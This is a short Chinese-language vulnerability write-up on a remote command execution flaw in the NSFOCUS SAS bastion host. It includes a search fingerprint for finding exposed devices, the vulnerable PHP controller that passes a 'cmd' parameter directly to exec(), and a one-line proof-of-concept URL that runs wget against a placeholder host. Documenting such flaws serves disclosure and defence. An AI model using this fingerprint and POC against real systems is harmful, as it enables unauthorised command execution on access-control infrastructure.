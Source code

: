 # 绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞描述

绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8-20230810133806265.png)

漏洞存在于文件 ExecController.php 文件中

![img](../../../.vuepress/public/img/1691645538909-d812cd3c-58f8-4325-b91e-456dce6b9a3c.png)

```php
<?php
  require_once 'Nsc/Websvc/Response.php';
class ExecController extends Cavy_Controller_Action {

  var $models = 'no';

  public function index() {
    $command = $this->_params['cmd'];
    $ret = 0;
    $output = array();
    exec($command,$output,$ret);
    $result = new StdClass;
    if ($ret != 0) {
      $result->code = Nsc_Websvc_Response::EXEC_ERROR;
      $result->text = "exec error";
    }
    else {
      $result->code = Nsc_Websvc_Response::SUCCESS;
      //			$result->text = implode("\n",$output);
      $result->text = "WEBSVC OK";
    }
    $this->_render(array('result'=>$result),'/websvc/result');
  }
}
?>
```

验证POC

```php
/webconf/Exec/index?cmd=wget%20xxx.xxx.xxx
```

![img](../../../.vuepress/public/img/1691645555190-0e9d0dbb-97bc-4569-9357-e0bf65c3138d.png)

![img](../../../.vuepress/public/img/1691645814709-0b0ac94f-1899-4cfb-9751-7037cfecd3ef.png)
